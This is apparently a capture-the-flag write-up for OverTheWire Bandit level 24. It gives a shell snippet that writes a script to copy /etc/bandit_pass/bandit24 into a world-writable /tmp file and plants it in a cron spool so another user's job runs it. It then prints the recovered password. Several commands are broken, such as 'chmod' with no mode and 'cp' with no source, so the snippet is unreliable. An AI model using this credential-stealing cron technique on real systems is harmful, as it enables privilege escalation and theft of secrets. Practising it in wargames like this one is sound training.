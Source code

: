 ```sh
chmod 777 /tmp/ricka/mdp
vim ricka.sh
####script####
#!/bin/bash

cat /etc/bandit_pass/bandit24 > /tmp/ricka/mdp
####end of script#####

chmod ricka.sh
cp /var/spool/bandit24/foo/

####All I do is wait until my script is executed and then
cat mdp
```
**Password level 24 :** <span class="pwd">VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar</span>